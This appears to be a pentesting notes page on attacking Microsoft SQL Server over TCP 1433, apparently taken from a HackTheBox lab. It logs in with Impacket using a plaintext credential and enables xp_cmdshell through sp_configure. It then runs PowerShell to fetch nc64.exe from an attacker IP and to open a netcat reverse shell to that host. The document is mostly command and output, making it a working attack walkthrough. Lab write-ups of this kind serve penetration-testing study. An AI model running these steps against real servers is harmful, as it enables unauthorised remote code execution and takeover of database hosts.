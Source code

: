 # MSSQL - TCP 1433

```
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.195.147 -windows-auth
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)> 
SQL (ARCHETYPE\sql_svc  dbo@master)> SELECT is_srvrolemember('sysadmin');
    
-   
1   

SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC xp_cmdshell 'net user';
ERROR: Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL (ARCHETYPE\sql_svc  dbo@master)>

```

Indeed is not activated. For this reason we will need to proceed with the activation of xp\_cmdshell as follows:&#x20;

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```



```
xp_cmdshell "powershell -c pwd"

Download file from attacker VM
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://10.10.14.9/nc64.exe -outfile nc64.exe"

Reverse shell
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe
10.10.14.9 443"
```

{% hint style="info" %}
[https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

[https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
{% endhint %}
